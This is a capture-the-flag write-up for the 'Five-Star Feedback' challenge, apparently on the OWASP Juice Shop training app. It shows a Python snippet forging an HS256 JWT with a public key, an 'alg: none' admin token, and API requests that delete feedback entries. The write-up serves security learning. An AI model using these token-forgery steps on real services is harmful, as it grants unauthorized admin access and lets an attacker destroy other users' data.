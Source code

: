 # Five-Star Feedback

**Category**: Broken Access Control  
**Difficulty**: 4  

---

### Description

Was able to delete **all five-star feedbacks** despite not being an administrator. This was possible due to weak JWT validation and access control flaws.

---

### Solution

**It is highly possible that we can ommit steps 1-4 to unlock this challenge**

1. I analyzed the JWT token stored in browser DevTools (localStorage.token).

2. I attempted to forge a valid JWT using jwt_tool.py and Python’s pyjwt, trying two methods:
   
   - RS256 with the public key obtained from .well-known/security.txt
   
   - Changing algorithm to HS256 and using the public key as the HMAC secret:
     
     ```
          import jwt
     
     with open("public.pem") as f:
     
         key = f.read()
     
     payload = {
     
         "email": "admin@juice-sh.op",
         "role": "admin"
     
     }
     
     token = jwt.encode(
     
         payload, key, algorithm="HS256",
         headers={"alg": "HS256", "typ": "JWT"}
     
     )
     
     print(token)
     ```
     
     → These attempts returned either 401 Unauthorized or no elevated access.

3. I succeeded by crafting a JWT with "alg": "none", disabling signature verification:
   
   {
     "alg": "none",
     "typ": "JWT"
   }
   .
   {
     "email": "admin@juice-sh.op",
     "role": "admin"
   }
   .

4. I replaced the JWT in the Authorization: 
   
   ```
   Bearer <TOKEN> header using Burp Suite.
   ```

5. Verified admin privileges:
   GET /rest/user/whoami

6. Listed all feedbacks:
   GET /api/Feedbacks

7. Deleted entries with "rating": 5:
   DELETE /api/Feedbacks/<id>

Challenge successfully completed.
